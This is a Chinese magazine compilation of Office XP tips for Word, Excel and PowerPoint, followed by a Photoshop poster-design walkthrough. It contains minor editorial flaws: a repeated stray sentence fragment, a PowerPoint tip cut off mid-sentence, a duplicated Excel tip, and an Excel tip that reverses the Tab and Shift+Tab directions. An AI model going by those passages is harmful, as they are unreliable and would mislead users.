对于经常编辑 Word 文档的用户来说，从大量文件中找到要编辑对象并不容易。此时可以使用下面几种方法。

首先可以增大【文件】菜单的容量。Word XP【文件】菜单可列出最近使用的文档（默认4个），要想让【文件】菜单容纳更多的内容，具体操作方法是：单击【工具】菜单下的【选项】命令，打开【选项】对话框中的【常规】页。将【列出最近所用文件】复选框选中，然后将它的数值调到9（最大）。此后，只要打开【文件】菜单，从中找到要编辑的文件名单击，即可快速将其打开。

其次可以增加一个【工作文档】菜单。如果你编辑或打开过的文档较多，某些定期使用的文档会被其它文件挤出菜单。此时可以定义一个【工作文档】菜单，将一些经常使用的文档放入其中。具体操作方法是：单击【工具】菜单下的【自定义】命令，打开【自定义】对话框中的【命令】选项卡。选中【类别】框下面的【内置菜单】项（如图2），将【命令】下的【工作】拖到菜单栏，插入你喜欢的任何位置。最后将【自定义】对话框关闭，菜单栏就多出了一个【工作】菜单。


此后，只要打开经常使用的某个文档，单击【工作】菜单下的【“添至‘工作’菜单”】命令，就可以将这个文档加入其中。【工作】菜单中不再需要的文档可用以下方法删除：同时按【Ctrl + Alt + –（减号）】键，光标会变成一个粗“减号”。打开【工作】菜单后，用粗“减号”单击需要删除的文档即可。

打开【工作】菜单中的文档很简单，你只要打开【工作】菜单，单击其中需要打开的文档名即可。

最后还可以使用历史记录。Word XP可以保存你打开文档的历史记录，利用这一功能可以快速打开你使用过的文档。具体操作方法是：打开Word XP的【打开】对话框，单击其中的【历史】按钮，最近使用过的文件快捷方式就会显示出来。选中你要打开的文件快捷方式，单击【打开】按钮即可。

## 10. Word XP的粘贴对象格式修改技巧

通常，粘贴至 Word XP 文档的图片只能应用其原来的格式。如果使用“选择性粘贴”，就可以完成图片格式转换和粘贴双重任务，具体操作方法是：将图片放入剪贴板（例如在“画图”程序中复制图片），打开欲粘贴图片的文档。单击【编辑】菜单下的【选择性粘贴】命令，即可打开【选择性粘贴】对话框。在剪贴板存放BMP格式图片时，你可以看到对话框中有“BMP图像对象”、“图片”和“与设备无关的位图”等三种类型，你只要选中其中的一种，单击【确定】按钮就可以将图片插入文档。如果在PowerPoint XP中执行上述操作，还可以在“选择性粘贴”对话框中看到更多选项。

## 11. 文字变图片技巧

大家都知道“艺术字”能生成图片格式的文字，殊不知“选择性粘贴”也有这种功能，具体做法是：将需要做成图片的文字放入剪贴板，新建一个空白文档后打开【选择性粘贴】对话框。选中其中的“图片”或“图片（增强型图元文件）”，单击【确定】按钮，粘贴至 Word 文档的文字就会变成图片，可以像普通图片那样进行处理。

## 12. Word XP语音宏创建技巧

与 IBM 的 Via Voice 等语音识别软件不同，Word XP不能用语音直接操作宏。不过，你可以通过间接的途径实现这个功能。具体方法是：单击【工具】→【宏】子菜单下的【录制新宏】命令，建立一个执行操作或输入文本的宏。再单击【工具】菜单下的【自定义】命令，打开【自定义】对话框中的【工具栏】选项卡。再单击其中的【新建】按钮，在对话框中输入一个工具栏名称，如“语音宏”，单击【确定】按钮。这时屏幕上会出现一个空的工具栏，用鼠标将【自定义】对话框【命令】选项卡中的宏命令拖到新建的“语音宏”工具栏上。关闭【自定义】对话框，打开【工具】菜单下的【语音】命令，单击“语音宏”工具栏上的按钮，就可以用语音执行宏命令了。

框的【工具栏名称】框内输入“语音宏”之类的文字，单击【确定】按钮后把它拖到 Word XP 窗口顶部的合适位置。

接下来就可以在新建的工具栏上添加宏的按钮。打开【自定义】对话框中的【命令】选项卡，选中刚才建立的宏。然后把它从【命令】选项卡中拖到新建工具栏右端。最后将【自定义】对话框关闭，你就可以用语音控制宏的运行了。

## 13. Word XP 图片插入（粘贴）技巧

从 Word 2000 开始，图片无须文本框即可直接插入文档。Word XP 还可以修改默认的图片插入方式，使其更加符合用户的需要。具体做法是：单击【工具】菜单下的【选项】命令打开对话框，找到【编辑】选项卡中的【图片插入 / 粘贴方式】，单击按钮打开下拉菜单（如图3），就可以选择其中的插入或粘贴方式了。


## 14. 窗口元素操作技巧

Word XP 窗口由若干窗口元素构成，如工具栏、标尺和状态栏等等。你可能没有想到，用鼠标双击它们还能执行以下操作。

双击 Word 水平或垂直标尺的空白处，可以打开【页面设置】对话框；双击水平标尺两端的某个缩进标记，可以打开【段落】对话框；如果你在水平标尺上设定了制表符，只要用鼠标双击它，就可以打开【制表位】对话框；鼠标双击状态栏上的任意位置，可以打开【查找和替换】对话框，执行【查找】、【替换】和【定位】操作；鼠标双击工具栏右端的空白处，可以打开【自定义】对话框，供你调整工具栏或增减其中的按钮。

## 15. Word XP 的文档混合分栏技巧

对报告之类的文档来说，其内容提要部分是不分栏的。如果其后的部分需要分栏，可以采用下面的技巧。

将光标放到需要分栏的段落开始处，单击【插入】菜单下的【分隔符】命令打开对话框。选中其中【分隔符】下的【连续】后【确定】，即可看到 Word 状态栏显示的节号为 2。如果该节中的所有内容都要分栏，只须将其中的文本全部选中，然后单击【格式】菜单下的【分栏】命令，在【分栏】对话框中选择合适的栏数即可。

假如文档只有部分内容需要分栏，可以采用以下操作方法：将光标放到需要分栏的文本开始处，按照上面介绍的方法插入分节符。再将光标放到分栏结束后的新段落开始处，依照同样方法插入另一个分节符。最后将这两个分节符中间的文本选中，按常规分栏方式操作，就可以给两个分节符中间的文本分栏了。

## 16. Word XP 中页面混合设置技巧

某些特殊文档需要混合设置页面，例如第一页为纵向、第二页却是横向。此时可以使用下面这种技巧：将光标放到需要改变页面方向的页首处，单击【插入】菜单下的【分隔符】命令打开对话框。选中其中【分隔符】下的【下一页】后单击【确定】按钮。然后单击【文件】菜单下的【页面设置】命令，在【页边距】选项卡中选择好页面方向并单击【确定】按钮，你就可以看到分节符后面的页面发生了变化。如果你想在该节后面的页重新设置方向，只要在该页的页首再次插入分节符，就可以使用相同方法再次修改页面方向了。

## 17. Word XP 中大小写更改技巧

如果你想改变 Word XP 文档中的英文大小写，可以按以下方法操作：选中要改变大小的字母或单词，按下【Shift】以后按 F3。按一次 F3，字母或单词将在全部大写、首字大写和全部小写之间切换。

## 18. Word XP 中的水平线绘制技巧

如果你的 Word XP 文档需要绘制水平线，可以采用下面的技巧：在段落开头连续输入三个特殊字符，然后回车，就可以画出漂亮的水平线。例如连续输入三个“=”（等号）回车，可以画出一条双实线；连续输入三个“*”（乘号）回车，可以画出一条点划线；连续输入三个“-”（减号）回车，可以画出一条单实线。

如果上述技巧不能生效，请你单击【工具】菜单中的【自动更正选项】命令打开对话框，将【单击键入时自动套用格式】选项卡中【键入时自动应用】下的“框线”复选框选中即可。

## 19. Word XP中字符重复查找技巧

在长文档中查找某个重复字符时，如果找到的字符位置不合适，需要连续单击【查找】选项卡中的【查找下一个】按钮。下面这个技巧可以提高重复查找的效率：第一次单击【查找下一个】按钮以后，如果需要继续查找，单击垂直滚动条下端的【前一次查找/定位】或【下一次查找/定位】按钮即可。这两个按钮不仅可以向前或向后查找，甚至在【查找】对话框关闭以后也能继续查找，使用起来非常方便。

## 20. Word XP中的空行删除技巧

从其他文件导入 Word 的文档常常含有多余空行，手工逐个删除非常麻烦。这个问题可以采用如下方法解决：单击 Word XP 【编辑】菜单下的【替换】命令，打开【查找和替换】、【替换】选项卡。单击其中的【高级】按钮展开将它展开，鼠标单击【查找内容】框，然后单击【特殊字符】按钮打开菜单，选择【段落标记】即可看到 "^p" 出现在“查找内容”框中。重复上述操作再次输入一个 "^p"，然后在【替换为】文本框中输入一个 "^p"。单击【全部替换】按钮，就可以将多余的空行全部删除。

## 21. Word XP的“版本”保存技巧

对于多人反复修改过的重要文档来说，保留每次修改完成的版本有重要意义。其操作方法是：单击 Word XP 【文件】菜单下的【版本】命令，将对话框中的“关闭时自动保存版本”选中，每当编辑者关闭文档存盘时，Word XP就会自动创建一个版本。此后只要打开“XX版本”（XX是文件名），选中相应版本的文件名，单击【打开】就可以打开指定版本的文件了。

## 22. Word XP中的快速分页技巧

如果你的文档需要开始一个新页，无须连续敲回车直至看到新页。你只须按住【Ctrl】键再敲回车，一个新页就会展现在你的面前。

## 23. Word XP中链接创建技巧

如果你想在一个文档中创建超级链接，可以采用下面的技巧：选中另一个文档中作为超级链接文字显示的内容，按下鼠标右键将其拖到前者的页面中（如果前一个文档已经最小化，可以拖到它的任务栏图标上，文档页面会自动打开）。松开鼠标右键，选择快捷菜单中的【在此创建超级链接】命令，就会在虚线光标指示的位置创建一个超级链接。除了创建链接以外，此法还可以用于移动或复制对象等场合。

## 24. Word XP快速跳转技巧

如果你想在长文档中快速跳转到指定位置（页、节、行等），可以用鼠标双击 Word XP 状态栏中的页号、节号或行号。就可以打开【查找和替换】→【定位】选项卡，你只要在【输入X号】（X是页、节、行等）框中填入数字，回车后光标即可快速跳转到指定位置。

## 25. Word XP的顺序浏览技巧

如果你想顺序浏览文档中的标题、图片等对象，可以单击垂直滚动条下端的【选择浏览对象】按钮。选择其中的某种浏览方式单击，例如“按标题浏览”或“按图形浏览”。此后，【选择浏览对象】按钮上下的两个按钮就会变成蓝色，单击它们就可以顺序浏览刚才选择的对象了。

## 26. Word XP的汉字注音技巧

Word XP在微软拼音输入法3.0及更高版本的配合下，可以为30个以内的汉字加注带声调（不再是数字）的拼音，它的操作方法是：选中需要加注拼音的汉字（可以多选，但是只能给前30个汉字加注拼音），单击【格式】→【中文版式】子菜单下的【拼音指南】命令，打开对话框以后即可在【预览】框中看到已注音的汉字。

如果你感觉汉字上面的拼音字母太小，可以打开对话框中的【字号】下拉列表，从中选择合适的值。如果你想调整拼音与汉字的对齐方式，可以打开【对齐方式】下拉列表，从五种对齐方式中任选一种。如果你想改变汉字的字体和字号，只须将汉字和拼音全部选中，按通常的格式设置方法修改即可。

### 三、Excel XP使用技巧

### 1. 快速更改引用

假如 C1 单元格包含公式 "=SUM(A2:B2)"，如果需要改变其中的单元格引用方式，可以使用以下技巧：首先选中 C1 单元格，然后选中工作表编辑栏中的引用 A2:B2，按 F4 即可将相对引用更改为绝对引用和混合引用。例如，按一次【F4】将 A2:B2 改变为 $A$2:$B$2，再按一次 F4 将 $A$2:$B$2 改变为 A$2:B$2。如此反复，即可在相对引用、绝对引用和混合引用之间切换。

### 2. Excel XP中文本转换数字技巧

Excel 一般采用文本左对齐、数值右对齐的方法区分文本和数值，许多函数也允许文本格式的数字参与运算。为了杜绝数字格式错误导致的混乱，Excel XP 允许用户将文本格式的数字转换为数值。具体方法是：一旦文本单元格中输入了数字，其左上角就会出现一个绿色的小三角，表示智能标记已经发现了问题。你只要重新选中这个单元格，单元格右边就会显示一个智能标记按钮。单击该按钮即可打开下拉列表，你只要选择其中的“转换为数字”，就可以将文本格式的数字转换为数值。

一旦你没有发现智能标记的提示，可以用另一种方法处理。即打开【公式审核】工具栏。单击其中的【错误检查】按钮，Excel XP就会对当前工作表进行“地毯式”检查。一旦发现错误，它就会弹出一个对话框，其中不仅将错误原因告知用户，还给出了几种处理方法。单击其中的【转换为数字】按钮，即可将文本单元格中的数字转换为纯粹的数字。

### 3. Excel XP单元格中多行文本输入技巧

Excel XP在默认状态下单元格中只能输入一行文本，实现多行文本输入的简单方法是：当你需要在单元格中开始一个新行时，只要按【Alt+Enter】组合键即可，从而在一个单元格中输入两行乃至多行文本。

### 4. Excel XP的数据行删除技巧

假如一个Excel工作表含有大量数据。如果想将含有“男”的数据行删除，可以对该工作表进行“自动筛选”，将含有“男”的行筛选出来并选中，然后单击鼠标右键，选择快捷菜单中的【删除行】命令即可。

### 5. Excel XP中数据滚动技巧

如果你需要同时观察距离较远的两列数据，可以按以下方法操作。将鼠标移到水平滚动条右端的拆分框上，变成双向光标后水平拖动，即可用竖线将当前工作表分割为左右两个窗格。拖动其中的滚动条使需要观察的数据可见，此后即可按常规方法使两列数据同步滚动。如果需要取消竖直分割线，只须用鼠标双击它就可以了。

### 6. Excel XP的公式编辑技巧

如果公式是由几个Excel函数组合而成，而你又打算用函数向导修改某个函数的参数，可用鼠标单击函数名称或括号内的参数，再单击编辑栏中的【插入函数】按钮，即可打开【函数参数】对话框进行修改。

如果你想知道公式引用的单元格，可以单击函数名称或参数，即可自动标出公式引用的单元格，并显示黄色函数提示框。

由于公式执行后显示的是计算结果，按【Ctrl+~】键可使公式在显示公式内容与显示公式结果之间切换，方便了公式编辑和计算结果查看。

公式中的重要组成是单元格引用，它用来确定计算范围，如果用鼠标拖动的方法来引用单元格，就显得更准确快捷。以SUM函数为例，如果你使用了【函数参数】对话框，可让光标停在【Number】框内，然后选中参与计算的单元格。若这些单元格是不连续的，就应该按住【Ctrl】键拖动鼠标，被引用的单元格区域及其分隔符就会自动出现在公式中。

### 7. 在Excel XP中朗读Word文档的技巧

Excel XP增加了一个“文本到语音”功能，它可以朗读单元格中的数据。你只要将Word文档粘贴到工作表中，单击【工具】、【语音】子菜单下的命令，就可以打开【文本到语音】工具栏。选中工作表中需要朗读的区域，单击工具栏中【按行】或【按列】朗读按钮。再单击【朗读单元格】按钮，Excel XP就会读出所选单元格区域中的所有内容。其中汉字和数字的朗读比较准确，英语单词只能分解为字母逐个读出，但用于一般校对已经足够了。

### 8. 在Excel XP中的输入法打开技巧

Excel工作表输入数据需要频繁切换输入法，Excel XP可以根据输入内容自动切换输入法，从而大大提高输入效率。设置方法是：选中需要使用特别输入法的单元格或单元格区域，再将该输入法打开。单击【数据】菜单中的【有效性】命令，打开【数据有效性】对话框中的【输入法模式】选项卡。在【输入法模式】选项卡的【样式】下拉列表中选择【打开】，最后单击【确定】按钮。

以后只要选中设置了输入方式的单元格，相应的输入法都会自动打开，可以节约用户切换输入法耗费的时间。

### 9. Excel XP中超级链接应用技巧

如果你想从Excel工作表或Word文档中打开其他文档，下面这个技巧非常有用：首先打开作为链接对象的某个文档，选中标题或其他有代表性的文字（如标题）。然后切换至Excel工作表或Word文档，打开【选择性粘贴对话框】。对Word XP来说，应当选中对话框中的“粘贴链接”单选项，再选中对话框【方式】下的“Word Hyper Link”；对Excel XP来说，应当选中对话框【方式】下的“超链接”，单击【确定】后工作表或文档中就会出现带下划线的文字，在Excel XP中单击（在Word XP中按住Ctrl键单击），即可打开超链接的文档。

### 10. Excel中复制公式的技巧

绝大多数Excel用户喜欢用鼠标拖动的方法复制公式。此法有一个缺点，就是在单元格分布无规律时操作困难。解决这个问题的技巧是：选中公式所在的单元格，单击Excel工具栏中的【复制】按钮。然后按下【Ctrl】键，用拖动鼠标的方法选中需要应用公式的单元格。然后单击Excel【编辑】菜单中的【选择性粘贴】命令，选中对话框【粘贴】下的【公式】单选项，单击【确定】后即可将公式复制到选中的单元格中。

## 11. Excel XP中的简单运算技巧

多个单元格内的数据如果需要与某一个数进行加、减、乘、除，并且不希望增加新的数据单元格，那么采用公式进行计算会很麻烦。如果使用“选择性粘贴”则有事半功倍的效果，其操作方法如下：比如有A2:A6、B6:B12等多个数据区域，希望其中的数据同时乘以16。可以先在一个空白单元格中输入16，将其选中后单击工具栏中的【复制】按钮，再按下【Ctrl】键将要乘以16的单元格全部选中。按上面介绍的方法打开【选择性粘贴】对话框，选中【运算】下的【乘】，单击【确定】按钮，所选单元格中的数据均变为乘以16的结果。如果你要对单元格中的数据执行其他运算，只须在对话框的【运算】下选择某种运算即可。

## 12. 在Excel XP中快速套用格式的技巧

如果你想将Excel XP工作表中的格式套用到其他位置，除了使用“格式刷”以外，“选择性粘贴”在特定场合下更加快捷。操作方法是：选中作为样本的单元格或区域，按【Ctrl+C】将其放入剪贴板。然后按下【Ctrl】键选中要套用格式的全部单元格，打开【选择性粘贴】对话框，选中【粘贴】下的“格式”并单击【确定】按钮，则所选单元格就会使用所复制单元格的格式。

## 13. Excel XP中的公式编辑技巧

如果公式是由几个Excel函数组合而成，而你又要用函数向导修改某个函数的参数。可用鼠标单击函数名称或括号内的参数，再单击编辑栏中的【插入函数】按钮，即可打开【函数参数】对话框进行修改。Excel XP在你单击函数名称或参数时，能用蓝色方框标出公式引用的单元格，并显示黄色的函数提示框。

由于公式执行后显示的是计算结果，按【Ctrl+`】键，可使公式在“显示公式内容”与“显示公式结果”之间切换，方便了公式编辑和计算结果查看。

公式中的重要部分是单元格引用，它的作用是确定计算范围，用鼠标引用单元格准确快捷。以SUM函数为例，如果你使用了【函数参数】对话框，可让光标停在【Number】框内，然后用鼠标选中需要计算的单元格。若这些单元格是不连续的，可以按住【Ctrl】逐个选中，被引用的单元格区域及其分隔符会自动出现在公式中。如果你是在编辑栏直接输入公式，可以将光标放入括号中间，然后按上述方法操作即可。

## 14. Excel XP中多工作簿打开技巧

如果你的操作需要同时打开多个工作簿，可以将这几个工作簿保存为工作区，只要将它打开，Excel就会打开保存在其中的每个工作簿。实现的具体方法是：打开需要同时使用的多个工作簿，根据使用要求调整好工作簿窗口的大小和位置。再单击Excel【文件】菜单下的【保存工作区】命令，输入工作区名称后单击【保存】按钮即可。需要注意的是：你对每个工作簿所作的修改必须分别保存，而不能通过保存工作区来保存多个工作簿。

## 15. 在Excel XP中自动打开工作簿的技巧

如果你需要工作簿随Excel启动自动打开，可以按以下方法操作。使用上面介绍的方法将几个工作簿保存为工作区，在【资源管理器】中选中其图标后单击工具栏中的【复制】按钮。如果你使用的是Windows 98/Me，要打开C:\Windows\Application Data\Microsoft\XLSTART文件夹；如果你使用的是Windows 2000/XP，则应打开C:\Program Files\Microsoft Office\Office\XLSTART文件夹（其中C是Windows所在盘符）。用鼠标右键单击右窗格中的空白处，选择快捷菜单中的【粘贴快捷方式】命令，将工作区的快捷方式图标放入其中。以后只要运行Excel XP，工作区中的所有文件就会被打开。如果你要自动打开某个工作簿，只要按照相同方法将它的快捷方式图标放入XLSTART文件夹即可。

## 16. Excel XP中货币符号的输入技巧

选中工作表中的某个单元格，打开“Num Lock”，按住【Alt】键。用数字小键盘输入“0162”可得分币字符￠，输入“0163”可得英镑字符£，输入“0165”可得日圆符号￥，输入“0128”可得欧元符号。

## 17. Excel XP中的限定区域输入技巧

如果Excel XP工作表输入的数据限定在一个区域内，可以采用以下方法实现快速输入而无须使用鼠标进行单元格切换。用鼠标选中要输入数据的区域，敲击键盘即可在区域左上角输入数据，完成后按【Tab】键光标左移，到达区域右边界以后自动折入选区域的第二行。如果你需要光标向右移动，按【Shift+Tab】就可以了。

## 18. Excel XP中的彩色表格打印技巧

为了突出显示某些特殊数据，给单元格设置特殊颜色和底纹是常见的方法。如果你使用的是黑白打印机，则会把颜色和底纹一起打印，导致表格的可视性受到严重影响。解决这个问题的办法是：单击【文件】菜单下的【页面设置】命令打开对话框，将【工作表】选项卡中的“单色打印”选中。此后，打印表格就会忽略已设置的颜色和底纹了。

## 19. Excel XP中避免打印错误的技巧

如果你的工作表存在错误，可以采取下面的措施避免它们被打印。单击【文件】菜单中的【页面设置】命令，打开对话框中的【工作表】选项卡。再打开【错误单元格打印为】下拉列表，根据需要选择“<空白>”或“——”即可。

## 20. Excel XP中的多工作表输入技巧

如果需要在一个工作簿的不同工作表中输入相同的内容，可以采用下面介绍的技巧：打开工作簿，按下【Ctrl】键，用鼠标单击需要输入同一内容的各个工作表的标签，将相关工作表逐个选中。此后只要在其中任意一个工作表中输入数据，它们就会自动出现在被选中的其它工作表中。输入结束以后，再次按住【Ctrl】键，使用鼠标单击已选中的工作表标签，即可解除工作表的选中状态。

## 21. 在 Excel XP 中跳过空白单元格的技巧

如果你只对大块区域中的数据单元格进行粘贴，可以选择【选择性粘贴】对话框下面的“跳过空单元格”选项。此后，你所执行的粘贴操作对空单元格无效，这在需要改写数据的场合非常有用。

### 四、 PowerPoint XP使用技巧

### 1. PowerPoint XP中的小册子制作技巧

宣传、广告等场合常常需要制作各种小册子，PowerPoint XP 采用 “讲义” 版式可以在一页纸上打印多张幻灯片，经过折叠和裁切就可以做成精美的小册子。具体方法如下。

按常规方法制作好幻灯片，单击【文件】菜单下的【打印】命令打开对话框，选择【打印内容】下的“讲义”，根据需要选择合适的“每张幻灯片数”和“顺序”即可打印。如果你想观察打印效果，可以单击工具栏中的【打印预览】按钮打开窗口。如果想观察小册子的灰度和黑白打印效果，可以单击【选项】→【颜色 / 灰度】子菜单下的【灰度】或【纯黑白】命令，彩色幻灯片会用 “灰度” 或 “纯黑白” 方式显示。如果你想看小册子的版面效果，可以打开【打印内容】下拉列表，选择将要使用的讲义版式（共有六种），你就可以在窗口中看到具体效果了。

### 2. PowerPoint XP 中图片的 “减肥” 技巧

为了减少幻灯片占用的空间，用户必须采用事先压缩图片等手段，影响了幻灯片的制作速度。为了解决这个问题，PowerPoint XP 增加了图片压缩功能，用户可以压缩幻灯片中的一幅或者多幅图片，而且不影响图片的质量。具体操作方法是：鼠标右键单击幻灯片中的图片，选择快捷菜单中的【设置图片格式】，

### 3. PowerPoint XP中的图片定位技巧

旋转、对齐是幻灯片制作必不可少的操作，PowerPoint XP 旋转幻灯片图片的方法是：选中已插入幻灯片的图片，鼠标指向绿色的旋转标记。当光标变成旋转箭头后按下鼠标左键，就可以以几何中心为轴任意旋转图片了。

在PowerPoint XP以前的版本中，幻灯片中的对象一般靠目测定位，多个对象的移动是一个个进行的，PowerPoint XP 的可视化网格解决了这个难题。你只要单击【视图】菜单下的【网格和参考线】命令打开对话框，选中其中的“屏幕上显示网格”，就可以网格为参照，使对象与网格或与其他对象对齐。如果按下【Ctrl】键选中幻灯片中的多个对象，鼠标指向其中的任意一个对象，就可以按照光标的指示进行整体移动。

### 4. PowerPoint XP中演示文稿的合并技巧

此功能与 Word XP 中的文档合并非常类似，你可以将多个PowerPoint XP演示文稿合并成一个，而且每一部分仍保持原来的外观。合并的操作方法是：先打开一个PowerPoint XP演示文稿，单击【工具】菜单下的【比较并合并演示文稿】命令；在对话框中找到待合并的目标文件，单击对话框中的【合并】按钮。按提示继续操作，目标文件的所有幻灯片即插入当前选中的幻灯片之前，保存后就会成为一个新的演示文稿。

### 5. PowerPoint XP中幻灯片浏览技巧

PowerPoint XP的大纲视图和幻灯片缩略图整合为普通视图，用户只需选中【视图】菜单下的【普通】命令，就可以窗口左侧看到幻灯片的【大纲】或【幻灯片】选项卡。选中其中的任意一张幻灯片，按上下方向键可以顺序浏览演示文稿中的所有幻灯片。用鼠标选中大纲视图或幻灯片缩略图中的幻灯片，就可以拖动并直接插入到横线指示的新位置。

### 6. PowerPoint XP中的文件加密技巧

如果你的PowerPoint XP文件不想让他人看到，可以单击【工具】菜单下的【选项】命令，打开【选项】→【安全性】对话框。根据需要在【打开权限密码】或【修改权限密码】输入框中输入密码。若单击【高级】按钮可以打开【加密类型】对话框，选择其中提供的某种加密类型，其中后面几种可选的密钥最大长度为128位。

（文 / 张迎新）

## 广告设计案例 “文明的进步”

以广受好评的广告设计作品为案例，由专业设计师执笔向读者传授招贴作品的制作技巧。讲解的过程中还穿插了从业人员在实际工作中的经验之谈，为初学者提供了很好的借鉴。

## Photoshop 特效信手拈来

无需过多Photoshop使用经验，无需复杂的操作步骤，弹指一挥间，五彩缤纷的图形、文字特效即可完成。本专题还展示了多款Actions特效，与配套光盘中的脚本文件相得益彰。

## 广告设计案例 “文明的进步”

“平面设计”这一专业术语是第二次世界大战之后渐渐流行起来的，中心内容主要包括招贴设计、企业形象设计、包装设计以及书籍装帧设计等。但在互联网和计算机日益普及的今天，网页设计和光盘界面的设计业已同属于“平面设计”的领域。

在后文的实例应用中笔者将和你一起用Photoshop7.0完成一个真实的广告招贴设计方案。

招贴又名“海报”和“招贴画”，国外也称之为“瞬间”的街头艺术。它应该是属于户外广告的一种，因为招贴通常被贴在街道、影剧院、展览会、商业闹区、车站、码头、公园等公共场所。

招贴要张贴在热闹的场所，所以必须以大画面及突出的形象和色彩展现在人们面前，或者说我们要求它一定要很抢眼（不要错误地理解笔者的意思：抢眼可不是指字越大越好）。那怎么才能抢眼呢？在设计招贴的时候要充分体现产品的定位，比如在图形上要力求突出产品的商标、公司标志，或使用冲击力强的图形等。在色彩和构图方面要使用对比强烈的色彩，或大面积的留白，追求一种简练的视觉效果。也许你会问，“怎么看一个招贴是否成功呢？”很简单，只要使招贴的主题成为视觉焦点，你就成功了！

图1所示的招贴是笔者为外语研究出版社所做的一幅设计。具体的情况是这样的：当时笔者刚刚接触电子图书（光盘图书）的设计，而笔者的上司要到法国去参加一个多媒体的展览，需要做一个大的招贴画挂在展台上！

这幅招贴就是最后选中的设计方案之一。它的制作几乎用了笔者一个月的时间才完成。别误会，其实具体的制作只需要一个小时也许都不到，但是构思却用了很长时间！可见有时候作品的制作时间很少，但是构思的时间也许是它的十倍甚至更多！笔者是希望大家能养成先思考后做图的习惯。正所谓胸有成竹方能临阵不乱，一个没有设计理念在其中的作品还叫设计吗？

下面请看看笔者的设计着眼点吧！

招贴中的主体石碑是由一张石刻照片引来的灵感。麻绳、古书和光盘表现了人类从结绳记事到印刷，最后进步到以光盘为介质纪录人类文明的一个过程。人类进入文明以来，就在不断地记录和传达文明的成果。从远古的岩画到象形文字，从中国的印刷到现在的光盘，无一不体现了左上角的繁体“记”字。这正符合了外研社当时的宣传口号——“沟通世界文化，记载人类文明”。而且整个设计包含着浓厚的中国韵味，参加国际性的交流活动实在是再合适不过了！

有点自卖自夸了，请包涵！让我们来开始制作这个招贴吧！


### 一、制作主体 “石碑”

这个招贴中的石碑是笔者将一张A4的复印纸，用打火机烧出基本的形状之后，再用烟熏成泛黄的效果。然后在Photoshop7.0中将处理过的纸扫描进来，最后将图像保存为PSD格式，将其白底色去掉使之成为透明背景图像，并将该层命名为Layer1。如图2所示，是该图效果及层结构示意。读者可以在本书配套光盘中找到该文件 “配套光盘B:\booksource\Guangguo\纸.psd”。

1. 打开本书配套光盘中的“纸.psd”文件。
2. 选择Photoshop工具箱中的竖排文字输入工具，然后在图像中输入文字（如图3所示，笔者使用的字体是方正小篆体）。
   笔者在这里输入的是《般若波罗蜜多心经》中的一部分，如果没有合适的文字可以输入的话，可以参考《般若波罗蜜多心经》的原文。
   > ……色不异空，空不异色，色即是空，空即是色，受想行识，亦复如是……舍利子，是诸法空相，不生不灭，不垢不净，不增不减，是故空中无色，无受想行识，无眼耳鼻舌身意，无色声香味触法，无眼界，乃至无意识界，无无明，亦无无明尽，乃至无老死，亦无老死尽，无苦集灭道，无智亦无得……
3. 将文字颜色选为白色，字号设置为17pt（如图4）。
   
4. 先将文字层复制，然后选择位于下面的那个文字层，使其成为当前活动层。单击鼠标右键在弹出式菜单中选择Rasterize Layer，这样文字层就变为了图像层（如图5）。
5. 接下来给转换为图层后的文字层加上立体的效果。点击层控制面板的加入图层样式按钮，在下拉菜单中选择Bevel and Emboss(斜角和浮雕)特效，调出Layer Style(图层样式)设定对话框，此时图层样式设定对话框中将出现Bevel and Emboss(斜角和浮雕)的各项设定。在Style中选择Emboss，Size设置为4，Soften设置为3，具体设置可参见图6。
   笔者在这里引用佛教经文，并不是说笔者就信佛，一方面是这个设计所要求的，另一方面也是想提醒大家，要成为一个好的设计人员，单是能熟练地运用设计工具还是不够的，还要不断地提高自身修养，从中国的古老文化中汲取精华。另外，要多看知名设计师的作品从中积累经验也很重要。使自己所做的设计作品带有一种思想，不论它是东方的还是西方的，只要运用得当，一样是你的杰作。
   下面继续制作石碑效果吧。
   
   
6. 只需要一点小技巧即可解决这个问题。点选转换为图层后的文字层，使其成为活动层。按住Ctrl键的同时单击Layer1（纸层），纸的选区就出现了。
7. 执行 Select > Inverse 命令将选区反选（也可以使用快捷键 Ctrl+Shift+I）。接下来按Delete键，用以删除不需要的文字（如图8）。 到此为止几乎已经完成了石碑制作的大部分工作了，那怎么使这块“石碑”具有光泽感和质感呢？请紧跟笔者下面的操作步骤！
8. 点选层Layer1(纸)。在层面板上的混合模式弹出式菜单中选择Difference(差异)模式（如图9）。
   
   
   如图10所示，怎么样，石碑的效果出来了吧？
   
   Difference(差异)模式绘制的颜色与底色的亮度值互减，取值是以亮度较高的颜色减去亮度较低的颜色。绘制颜色成白色可使底色反相，绘制颜色为黑色则原图没有变化。图10所示的效果是使用了此模式后的效果，白色的地方变为了黑色，而烟熏黄的地方又反射出蓝色的光亮。
9. 为了使石碑刻字的效果更加真实一些，需要将字那一层的不透明度降下来，笔者在本例中设置的是64%，当然你也可以设置成自己认为合适的数值。
   最后注意，别忘了将原文字层变为隐藏图层！
   石碑的制作至此就完成了，笔者想在这里说明一点的是，在前边之所以一直没有删除原文字层，是因为在工作的时候难免要修修改改，适当地保留一些图层，有时候能省却不少的时间！当然了，在最终确认输出的时候就必须要合并层了！

### 二、制作招贴

招贴中的主体“石碑”已经做好了，下一步就是将招贴中的各个元素摆放在合适的位置上。在这里笔者要说明的是平面设计除了在视觉上给人一种美的享受外，更重要的是向广大的消费者转达一种信息或是一种理念。

就本例要做的这个招贴来说，它所具有的平面设计的基本构成要素如下：公司名称、公司标志、插图（石碑）、广告语、标题。那么在设计和制作的过程中，如何安排好这些要素的位置至关重要。这就牵涉到了设计中的构图问题，这在本附录的《网页设计美学原则》一文中有详细论述，读者可以参阅。

一般情况下用于印刷的招贴尺寸通常分为8开（260 × 370）、4开（520 × 370）、对开（520 × 740）几种（在这里标注的尺寸为印刷中的正度大小）。下面是以一个8开的招贴为例做介绍的。

1. 接着上一节中的步骤继续本例招贴的制作。首先将已经做好的石碑文件层合并。
2. 建立名为“招贴”的新文件，尺寸为宽(Width)：26cm，高(Height)：37cm，分辨率(Resolution)：300Pixels/inch，模式(Mode)：CMYK color，背景色选为白色（如图11）。
   
3. 使用工具箱中的移动工具，将合并层后的石碑文件拖曳（置入）到招贴文件中。
4. 选择工具箱中的字体工具输入“记”字，字体选择粗宋繁体。然后输入英文、放置软盘图标。
   英文“Recording Human Civilization And Bridging Different Cultures”就是这幅招贴中的广告语（口号），翻译为中文的意思是“沟通世界文化，记载人类文明”，而繁体的“记”字，在这里笔者是当作标题来处理的。将“记”字放在整个构图上的左上角，由于它的字体比较大，为了维持平衡美的构图，所以笔者选择在右上角放置一个软盘图标（如图12）。
   
